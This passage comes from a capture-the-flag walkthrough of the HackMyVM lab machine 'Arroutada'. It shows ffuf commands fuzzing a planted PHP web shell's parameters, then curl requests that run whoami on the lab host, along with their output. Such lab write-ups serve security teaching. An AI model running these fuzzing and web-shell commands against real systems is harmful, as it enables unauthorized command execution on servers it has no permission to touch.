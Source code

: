 Unfortunately for us, when we visit the page it is blank. This could be an indication that some parameters are needed
![](/assets/img/posts/walthrough/hackmyvm/2024-09-14-arroutada/shell-browse.png){: .center}

Since we don't know the parameter(s) used by the shell we need to fuzz for these parameters.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Scans/Web]
└─$ffuf -ic -c -u http://10.0.2.12/thejabasshell.php?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0

<SNIP>
a                       [Status: 200, Size: 33, Words: 5, Lines: 1, Duration: 20ms]
:: Progress: [6453/6453] :: Job [1/1] :: 314 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

We successfully discovered a parameter named **a** but upon accessing it, it revealed that the parameter b is required. 
```bash
┌──(pentester㉿kali)-[~/Arroutada/Scans/Web]
└─$curl http://10.0.2.12/thejabasshell.php?a=id
Error: Problem with parameter "b"

┌──(pentester㉿kali)-[~/Arroutada/Scans/Web]
└─$curl 'http://10.0.2.12/thejabasshell.php?a=id&b=1'
Error: Problem with parameter "b"                    
```

Since we know the new parameter's name but not its value let's fuzz for the value.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Scans/Web]
└─$ffuf -ic -c -u 'http://10.0.2.12/thejabasshell.php?a=id&b=FUZZ'  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -fs 33 

<SNIP>
pass                    [Status: 200, Size: 54, Words: 3, Lines: 2, Duration: 125ms]
<SNIP>
```

## Exploitation

Now, we know the value required by the second parameter. Let's test this web shell by executing the whoami command.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Scans/Web]
└─$curl 'http://10.0.2.12/thejabasshell.php?a=whoami&b=pass'
www-data                  
```
